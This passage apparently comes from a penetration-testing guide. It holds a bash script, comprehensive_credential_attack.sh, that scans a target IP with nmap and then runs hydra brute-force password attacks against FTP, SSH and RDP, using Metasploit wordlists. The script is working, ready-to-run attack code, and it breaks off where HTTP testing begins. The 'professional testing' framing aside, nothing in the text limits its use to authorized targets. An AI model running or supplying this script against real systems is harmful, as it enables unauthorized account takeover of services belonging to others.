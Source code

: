 ### **🔧 Advanced Automation Script for Multiple Services**

```bash
#!/bin/bash
# comprehensive_credential_attack.sh - Professional multi-service testing

TARGET=$1
OUTPUT_DIR="hydra_results_$(date +%Y%m%d_%H%M%S)"
LOGFILE="$OUTPUT_DIR/attack_log.txt"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

# Create output directory
mkdir -p $OUTPUT_DIR

echo "[+] Starting comprehensive credential attack on $TARGET" | tee $LOGFILE
echo "[+] Results will be saved to $OUTPUT_DIR" | tee -a $LOGFILE

# Phase 1: Service Discovery
echo "[+] Phase 1: Service Discovery" | tee -a $LOGFILE
nmap -sV -p 21,22,80,443,3389,3333,5985,5986 $TARGET > $OUTPUT_DIR/nmap_scan.txt
echo "[+] Nmap scan completed" | tee -a $LOGFILE

# Phase 2: Extract available services
SERVICES=$(grep -E "(ftp|ssh|http|rdp|ms-wbt-server)" $OUTPUT_DIR/nmap_scan.txt)
echo "[+] Available services:" | tee -a $LOGFILE
echo "$SERVICES" | tee -a $LOGFILE

# Phase 3: Systematic credential testing
echo "[+] Phase 2: Credential Testing" | tee -a $LOGFILE

# FTP testing
if echo "$SERVICES" | grep -q "ftp"; then
    echo "[+] Testing FTP service" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://$TARGET -o $OUTPUT_DIR/ftp_results.txt
fi

# SSH testing
if echo "$SERVICES" | grep -q "ssh"; then
    echo "[+] Testing SSH service" | tee -a $LOGFILE
    hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://$TARGET -o $OUTPUT_DIR/ssh_results.txt
fi

# RDP testing (multiple ports)
if echo "$SERVICES" | grep -q -E "(rdp|ms-wbt-server)"; then
    echo "[+] Testing RDP service" | tee -a $LOGFILE
    for port in 3389 3333; do
        if grep -q "$port.*open" $OUTPUT_DIR/nmap_scan.txt; then
            echo "[+] Testing RDP on port $port" | tee -a $LOGFILE
            hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://$TARGET -s $port -o $OUTPUT_DIR/rdp_${port}_results.txt
        fi
    done
fi

# HTTP testing
if echo "$SERVICES" | grep -q "http"; then
```